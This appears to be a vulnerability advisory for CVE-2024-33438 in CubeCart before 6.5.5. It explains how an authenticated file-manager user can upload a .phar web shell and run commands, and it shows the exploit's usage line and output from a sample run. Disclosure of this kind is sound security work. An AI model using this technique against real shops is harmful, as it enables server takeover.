 ```yaml
---
layout: default
---
```


# CubeCart < 6.5.5 - Authenticated File Upload May Lead To RCE (CVE-2024-33438)

## TL;DR

Although the application prevents most PHP extensions (e.g. `.php`, `.php4`, `.php5`, `.phtml`, etc) from being uploaded to the web server, the `.phar` extension is not blocked. An authenticated user with “edit” permissions to CubeCart’s file manager can upload a web shell via File Manager > Images and execute commands remotely.

## Automated Exploit

I wrote an exploit in Python that automates the whole process of uploading a file and executing a command. You can download it <a href="https://github.com/julio-cfa/CVE-2024-33438">here</a>.

This is the usage of the PoC:

```
Usage: python3 CubeCartCVE.py <URL> <username> <password> <command>
```

After running it, this is the expected output for a successful exploitation:

```
python3 CubeCartCVE.py http://localhost/admin_0Kqnr9.php admin 123456 whoami

     []  ,----.___
   __||_/___      '.
  / O||    /|
 /   ""   / /
/________/ /   launching exploit
|________|/    please wait...

[+] Trying to log into the application...
[+] Successful login. Uploading a simple web shell to the server...
[+] Executing command...

Output: www-data
```

## References

[https://github.com/julio-cfa/CVE-2024-33438/](https://github.com/julio-cfa/CVE-2024-33438/)
